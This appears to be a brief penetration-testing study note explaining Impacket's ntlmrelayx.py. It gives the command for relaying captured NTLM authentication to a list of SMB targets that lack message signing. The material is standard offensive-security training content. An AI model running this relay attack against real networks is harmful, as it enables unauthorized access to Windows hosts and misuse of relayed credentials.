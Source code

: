 ## What is ntlmrelayx.py

- Takes that relay and passes it through a [[2.2.2 Identify If target is Vulnerable to SMB Relaying#3. Insert IP Addresses that has message signing enable into a text file so you can proceed to exploit them.|target file]] that you specify
- You will need to install [[4. Installing  Impacket|impacket]]

#### Running ntlmrelayx.py

```kali linux
python ntlmrelayx.py -tf targets.txt -smb2support
```


